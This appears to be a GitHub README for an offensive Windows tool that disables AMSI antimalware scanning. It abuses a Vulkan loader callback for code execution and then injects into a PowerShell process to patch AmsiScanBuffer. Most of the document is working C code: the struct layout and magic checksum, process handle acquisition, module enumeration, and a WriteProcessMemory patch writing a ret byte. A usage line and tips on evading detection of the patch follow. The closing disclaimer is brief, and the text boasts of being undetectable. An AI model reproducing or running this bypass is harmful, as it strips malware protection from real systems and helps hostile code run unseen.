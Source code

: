# VK* API AMSI Bypass - The Vulkan Trampoline Hack

> *"When they patch one door, we find another..."*

**VK* API AMSI Bypass** exploits Vulkan graphics driver validation logic to execute arbitrary code and bypass Windows AMSI scanning. This technique uses the `vulkan-1.dll` trampoline functions as a proxy for code execution, making it undetectable by traditional API hooking detection methods.

## 🔬 The Technical Deep Dive

### The Core Concept: Vulkan Trampoline Exploitation

The Vulkan loader (`vulkan-1.dll`) has internal trampoline functions that perform **checksum validation** before executing callbacks. These functions are designed to validate Vulkan device objects, but we've turned them into our personal code execution engine.

### The Magic Struct: `EG_STR`

```c
typedef struct {
    uint64_t p, m, _1, _2, _3, _4, _5, _6, _7;
} EG_STR;
```

This innocent-looking struct is actually our **Proxy**:

- **`p`** → Points to `m` (the checksum location)
- **`m`** → Contains `0x10ADED040410ADED` (the magic checksum)
- **`_7`** → Our callback function pointer at offset 56 (0x38)

### The Vulkan Validation Logic

When `vkAllocateMemory()` is called, it performs this validation:

```assembly
mov rax, [rcx]        ; Get first struct member
mov r10, MAGIC         ; Load magic checksum
cmp [rax], r10         ; Compare [rax] with magic
jz valid_device       ; If equal, continue
call abort            ; Otherwise, crash and burn
```

**The trick**: `[rax]` means "dereference the address stored in rax". Since `p` points to `m`, and `m` contains the magic value, the check passes!

### Decompiled vkAllocateMemory Function

Here's the decompiled version of the `vkAllocateMemory_0` function that shows the exact validation logic:

```c
__int64 __fastcall vkAllocateMemory_0(__int64 *a1)
{
  __int64 v1; // rax

  if ( !a1 || (v1 = *a1) == 0 || *(_QWORD *)v1 != 0x10ADED040410ADEDLL )
  {
    sub_1800031B0(0, 392, 0, "vkAllocateMemory: Invalid device [VUID-vkAllocateMemory-device-parameter]");
    j_abort();
  }
  return (*(__int64 (**)(void))(v1 + 56))();
}
```

This decompiled code reveals:
- **Parameter validation**: Checks if `a1` is valid and dereferences it to get `v1`
- **Magic checksum check**: Compares `*(_QWORD *)v1` with `0x10ADED040410ADEDLL`
- **Callback execution**: Returns the result of calling the function pointer at `v1 + 56` (offset 56)
- **Error handling**: Calls `abort()` with a validation error message if checks fail

### The Callback Execution

After validation, the function does:

```assembly
mov rax, [rax + 0x38]  ; Get callback at offset 56
jmp rax                 ; Jump to our function
```

**Offset 56** = `7 * sizeof(uint64_t)` = `_7` member = our callback!

## 🎯 The AMSI Patching Process

### 1. Process Injection Setup
```c
target = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```
We get a handle to the target process (the one running PowerShell with AMSI enabled).

### 2. AMSI Function Location
```c
HMODULE amsi = LoadLibraryW(L"amsi.dll");
PFN_AmsiScanBuffer scan = (PFN_AmsiScanBuffer)GetProcAddress(amsi, "AmsiScanBuffer");
uintptr_t offset = (uintptr_t)scan - (uintptr_t)amsi;
```
We calculate the **RVA (Relative Virtual Address)** of `AmsiScanBuffer` from the base of `amsi.dll`.

### 3. Target Process AMSI Discovery
```c
EnumProcessModules(target, mods, sizeof(mods), &cb);
for (size_t i = 0; i < (cb / sizeof(HMODULE)); i++) {
    GetModuleBaseNameW(target, mods[i], name, sizeof(name) / sizeof(wchar_t));
    if (_wcsicmp(name, L"amsi.dll") == 0) { tgt = mods[i]; break; }
}
```
We enumerate all loaded modules in the target process to find where `amsi.dll` is loaded.

### 4. The Patch
```c
uintptr_t addr = (uintptr_t)tgt + offset;
VirtualProtectEx(target, (LPVOID)addr, 1, PAGE_EXECUTE_READWRITE, &old);
unsigned char ret = 0xC3;
WriteProcessMemory(target, (LPVOID)addr, &ret, 1, NULL);
VirtualProtectEx(target, (LPVOID)addr, 1, old, &old);
```

**The payload**: `0xC3` = `ret` instruction
- **What it does**: Makes `AmsiScanBuffer` return immediately
- **Result**: AMSI scanning is completely bypassed
- **Why it works**: The function never reaches the actual scanning code, issue, 0xc3 is detected on newer builds, i recommend doing other patch, i left 0xc3(Ret) beacuse this is PoC

## 🎮 Usage

```bash
Vk-Amsi-Bypass.exe <PID>
```

---
## Pics:
<img width="849" height="392" alt="image" src="https://github.com/user-attachments/assets/f9f41647-35b2-4fd8-b944-547f9f634123" />
<img width="1095" height="211" alt="image" src="https://github.com/user-attachments/assets/1596977f-f570-42bb-b43e-c206019cafd6" />


*"In the game of cat and mouse, sometimes the mouse uses the cat's own rules against it."* 🐭🐱

**Disclaimer**: This is for educational purposes only. Use responsibly and ethically.

### Credits:
- https://github.com/whokilleddb/function-collections/tree/main/hijack_callbacks/vkAllocateMemory
- https://github.com/carved4/vulkan-proxy
